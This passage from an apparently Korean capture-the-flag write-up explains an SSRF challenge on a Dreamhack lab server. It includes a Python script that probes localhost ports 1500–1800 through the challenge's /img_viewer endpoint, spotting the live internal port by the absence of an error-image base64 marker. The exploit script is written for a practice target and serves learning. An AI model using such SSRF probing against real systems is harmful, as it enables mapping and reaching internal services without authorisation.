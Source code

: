 ## 랜덤한 포트 찾기

정적 리소스를 반환해주는 `local_server`에서는 아래와 같은 코드를 통해 1500 ~ 1800 번 포트 중 랜덤한 포트로 로컬 서버를 열어주었다.

```
local_port = random.randint(1500, 1800)
```

`8000`번에서는 `flag.txt` 파일의 경로로 `GET` 요청을 보내도 해당 파일을 반환하도록 설정해주지 않았기 때문에, `local_server`를 통해 `flag.txt` 파일을 반환받아야 하기 때문에 해당 웹 서버의 포트 번호를 찾아야한다.

랜덤으로 설정해준 포트 번호는, 아래와 같이 파이썬의 `requests` 모듈을 활용한 스크립트를 통해 알아낼 수 있다.

```
import requests
import sys
from tqdm import tqdm

# `src` value of "NOT FOUND X"
NOTFOUND_IMG = "iVBORw0KG"


def send_img(img_url):
    global chall_url
    data = {
        "url": img_url,
    }
    response = requests.post(chall_url, data=data)
    return response.text


def find_port():
    for port in tqdm(range(1500, 1801)):
        img_url = f"http://Localhost:{port}"
        if NOTFOUND_IMG not in send_img(img_url):
            print(f"Internal port number is: {port}")
            break
    return port


if __name__ == "__main__":
    chall_port = int(sys.argv[1])
    chall_url = f"http://host3.dreamhack.games:{chall_port}/img_viewer"
    internal_port = find_port()
```

먼저, `NOTFOUND_IMG = "iVBORw0KG"` 를 통해 `"iVBORw0KG"` 라는 값을 저장해주는데, 이 값의 정체가 무엇인지 살펴보자.

만약 `/img_viewer` 엔드포인트에서 `url`을 통해 로컬호스트로 열려있지 않은 포트 번호를 전달하면, `try..except` 구문에서 exception이 발생하여 `error.png`이 렌더링된다.

`error.png` 파일을 base64로 인코딩한 후 utf8로 디코딩하면, 아래와 같이 `<img src>`의 속성 값으로 전달되는 `data` 값에 `"iVBORw0KG"`가 포함되게 된다.

<img width="684" alt="image" src="https://github.com/user-attachments/assets/0732bcd4-0153-43aa-8020-db7e13f519db">
